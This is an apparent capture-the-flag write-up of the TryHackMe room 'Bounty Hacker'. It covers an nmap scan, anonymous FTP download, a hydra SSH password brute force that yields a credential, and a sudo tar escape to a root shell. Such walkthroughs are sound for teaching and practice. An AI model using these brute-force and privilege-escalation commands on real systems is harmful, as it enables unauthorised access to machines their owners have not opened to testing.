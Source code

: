 ```yaml
---
title: TryHackMe | Bounty Hacker
author: Zeropio
date: 2022-09-29
categories: [TryHackMe, Rooms]
tags: [thm, linux]
permalink: /tryhackme/bounty-hacker
---
```


# Foothold

The nmap show:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
```

Try logging with **anonymous** is successful. Now we try getting all the ftp:

```console
zero@pio$ wget -m --no-passive ftp://anonymous@10.10.111.251
```

---

# Fingerprint

We found there a list of possible passwords plus a file signed by **Lin**. We can try bruteforcing the other service we have, ssh:

```console
zero@pio$ hydra -l lin -P locks.txt ssh://10.10.111.251

	[22][ssh] host: 10.10.111.251   login: lin   password: RedDr4gonSynd1cat3
```

---

# Privilege Escalation

We can see that we can use tar:

```console
lin@bountyhacker:$ sudo -l

		(root) /bin/tar
```

We can use this [GTFObin](https://gtfobins.github.io/gtfobins/tar/#sudo) to get a quick access:

```console
lin@bountyhacker:$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```